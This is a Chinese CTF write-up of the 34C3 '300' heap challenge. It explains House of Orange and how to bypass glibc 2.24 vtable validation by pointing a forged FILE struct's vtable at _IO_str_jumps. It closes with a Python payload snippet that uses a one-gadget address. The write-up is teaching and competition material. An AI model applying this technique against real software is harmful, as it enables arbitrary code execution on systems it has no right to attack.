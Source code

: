 #34c3 300 writeup  &  libc 2.24 house of orange  exploits


###1.题目简述

先来简单看下34c3 300这道题。程序保护全开。
题目的情景很简单：
allocs 是.bss段上的一个数组
allocs[0-9]   

alloc_it函数
allocs[a1]=0x300

write_it函数  
向allocs[a1]  写0x300个字符

Print_it就打印
需要注意的是myputs函数。

```c
ssize_t __fastcall myputs(const char *a1)
{
  size_t v1; // rax
  v1 = strlen(a1);
  write(1, a1, v1);
  return write(1, &unk_BD4, 1uLL);
}
```

也就是说遇到0x00就截断了,这里泄露堆地址时要注意，堆基址的最后一个字节是\x00
free_it函数仅仅是free  没有清0。
这道题可以用house  of  orange去利用。
那么就要想办法去溢出，覆写unsort bin。
因为这里存在一个UAF，那么可以通过污染unsort bin的bk去实现溢出。
污染unsort bin 有size的检查 且会遍历整个链表进行检查。


###2.house of orange 介绍
这里不详细描述，给出几个链接：
[how2heap](https://github.com/shellphish/how2heap/blob/master/house_of_orange.c)
[hitcon](http://4ngelboy.blogspot.ca/2016/10/hitcon-ctf-qual-2016-house-of-orange.html)

###3.libc 2.24对虚表的加固
先看一哈传说中的`__IO_list_all` 指针：

```c
struct _IO_FILE_plus *_IO_list_all = &_IO_2_1_stderr_;

```
然后

```c
322	struct _IO_FILE_plus
323	{
324	  _IO_FILE file;
325	  const struct _IO_jump_t *vtable;
326	};
```
然后

```c
747	int
748	_IO_flush_all_lockp (int do_lock)
749	{
750	  int result = 0;
751	  struct _IO_FILE *fp;
752	
753	#ifdef _IO_MTSAFE_IO
754	  _IO_cleanup_region_start_noarg (flush_cleanup);
755	  _IO_lock_lock (list_all_lock);
756	#endif
757	
758	  for (fp = (_IO_FILE *) _IO_list_all; fp != NULL; fp = fp->_chain)
759	    {
760	      run_fp = fp;
761	      if (do_lock)
762	        _IO_flockfile (fp);
763	
764	      if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
765	           || (_IO_vtable_offset (fp) == 0
766	               && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
767	                                    > fp->_wide_data->_IO_write_base))
768	           )
769	          && _IO_OVERFLOW (fp, EOF) == EOF)
770	        result = EOF;
771	
772	      if (do_lock)
773	        _IO_funlockfile (fp);
774	      run_fp = NULL;
775	    }
776	
777	#ifdef _IO_MTSAFE_IO
778	  _IO_lock_unlock (list_all_lock);
779	  _IO_cleanup_region_end (0);
780	#endif
781	
782	  return result;
783	}
```
然后就是调用 `_IO_OVERFLOW`函数，看看它是怎定义的：

```c
#define _IO_OVERFLOW(FP, CH) JUMP1 (__overflow, FP, CH)

#define JUMP1(FUNC, THIS, X1) (_IO_JUMPS_FUNC(THIS)->FUNC) (THIS, X1)

# define _IO_JUMPS_FUNC(THIS) (IO_validate_vtable (_IO_JUMPS_FILE_plus (THIS)))
```
也就是说会检查虚表，look是怎么check的：

```c
865	static inline const struct _IO_jump_t *
866	IO_validate_vtable (const struct _IO_jump_t *vtable)
867	{
868	  /* Fast path: The vtable pointer is within the __libc_IO_vtables
869	     section.  */
870	  uintptr_t section_length = __stop___libc_IO_vtables - __start___libc_IO_vtables;
871	  const char *ptr = (const char *) vtable;
872	  uintptr_t offset = ptr - __start___libc_IO_vtables;
873	  if (__glibc_unlikely (offset >= section_length))
874	    /* The vtable pointer is not in the expected section.  Use the
875	       slow path, which will terminate the process if necessary.  */
876	    _IO_vtable_check ();
877	  return vtable;
878	}
```

会检查是不是在 `__libc_IO_vtables` section里，这个section有好多表：

```c
469	extern const struct _IO_jump_t _IO_file_jumps;
470	libc_hidden_proto (_IO_file_jumps)
471	extern const struct _IO_jump_t _IO_file_jumps_mmap attribute_hidden;
472	extern const struct _IO_jump_t _IO_file_jumps_maybe_mmap attribute_hidden;
473	extern const struct _IO_jump_t _IO_wfile_jumps;
474	libc_hidden_proto (_IO_wfile_jumps)
475	extern const struct _IO_jump_t _IO_wfile_jumps_mmap attribute_hidden;
476	extern const struct _IO_jump_t _IO_wfile_jumps_maybe_mmap attribute_hidden;
477	extern const struct _IO_jump_t _IO_old_file_jumps attribute_hidden;
478	extern const struct _IO_jump_t _IO_streambuf_jumps;
479	extern const struct _IO_jump_t _IO_old_proc_jumps attribute_hidden;
480	extern const struct _IO_jump_t _IO_str_jumps attribute_hidden;
481	extern const struct _IO_jump_t _IO_wstr_jumps attribute_hidden;
```
文件的`vtable`使用的是`_IO_file_jumps`。
在libc2.23里，因为没有对虚表的检查，可以任意修改虚表指针到一个伪造的虚表。
但libc2.24失效了。

###4.bypass the check of libc2.24

libc2.24的检查没有严格到具体的某个地址，只是要求在一个section里。
那么如果我们改写vtable到other vtable（也在这个section里）会如何？

有一个有意思的vtable -- `_IO_str_jumps` 。
它的overflow函数是这样的：

```c
80	int
81	_IO_str_overflow (_IO_FILE *fp, int c)
82	{
83	  int flush_only = c == EOF;
84	  _IO_size_t pos;
85	  if (fp->_flags & _IO_NO_WRITES)
86	      return flush_only ? 0 : EOF;
87	  if ((fp->_flags & _IO_TIED_PUT_GET) && !(fp->_flags & _IO_CURRENTLY_PUTTING))
88	    {
89	      fp->_flags |= _IO_CURRENTLY_PUTTING;
90	      fp->_IO_write_ptr = fp->_IO_read_ptr;
91	      fp->_IO_read_ptr = fp->_IO_read_end;
92	    }
93	  pos = fp->_IO_write_ptr - fp->_IO_write_base;
94	  if (pos >= (_IO_size_t) (_IO_blen (fp) + flush_only))
95	    {
96	      if (fp->_flags & _IO_USER_BUF) /* not allowed to enlarge */
97	        return EOF;
98	      else
99	        {
100	          char *new_buf;
101	          char *old_buf = fp->_IO_buf_base;
102	          size_t old_blen = _IO_blen (fp);
103	          _IO_size_t new_size = 2 * old_blen + 100;
104	          if (new_size < old_blen)
105	            return EOF;
106	          new_buf = (char *) (*((_IO_strfile *) fp)->_s._allocate_buffer) (new_size);
107         ....
```
看`new_buf = (char *) (*((_IO_strfile *) fp)->_s._allocate_buffer) (new_size);`的意思是调用类似malloc的函数去申请一块新的缓冲区，那么可以看下相关的结构体：

```c
32	typedef void *(*_IO_alloc_type) (_IO_size_t);
33	typedef void (*_IO_free_type) (void*);
34	
35	struct _IO_str_fields
36	{
37	  _IO_alloc_type _allocate_buffer;
38	  _IO_free_type _free_buffer;
39	};
40	
46	struct _IO_streambuf
47	{
48	  struct _IO_FILE _f;
49	  const struct _IO_jump_t *vtable;
50	};
51	
52	typedef struct _IO_strfile_
53	{
54	  struct _IO_streambuf _sbf;
55	  struct _IO_str_fields _s;
56	} _IO_strfile;
```
这里就是问题的关键所在，`_IO_strfile`会扩展`_IO_FILE`这个结构体，把`vtabel`后面的value当做是alloc和free的函数指针。

`_IO_str_jumps -  _IO_file_jumps= 0xc0 = sizeof(_IO_strfile_)`
2张表应该是紧挨着的。

###5.300 wp的核心部分

```c
jump_table_addr = libc_base + libc.symbols['_IO_file_jumps'] + 0xc0

# Overwrite size to fall in small bin range for house of orange
file_struct = p64(0) + \
          p64(0x61) + \
          p64(libc_leak) + \
          p64(io_list_all_addr - 0x10) + \
          p64(2) + \
          p64(3)
file_struct = file_struct.ljust(0xd8, "\x00")
file_struct += p64(jump_table_addr)
file_struct += p64(libc_base + 0x4557a)
```

因为
`extern const struct _IO_jump_t _IO_str_jumps attribute_hidden;`
所以它在libc的符号表里找不到，只能通过`libc.symbols['_IO_file_jumps'] + 0xc0`的方式获得。

###6. ref
[300 write_up](https://github.com/DhavalKapil/ctf-writeups/blob/master/34c3ctf-2017/300/exploit.py)
[hctf babyprintf](http://simp1e.leanote.com/post/Hctf-2017-babyprintf)
[github](https://github.com/DhavalKapil/dhavalkapil.github.io/blob/0ed651d27bc0961a8664b6111359c6d82997c4a6/_posts/2018-01-12-FILE-Structure-Exploitation.md)



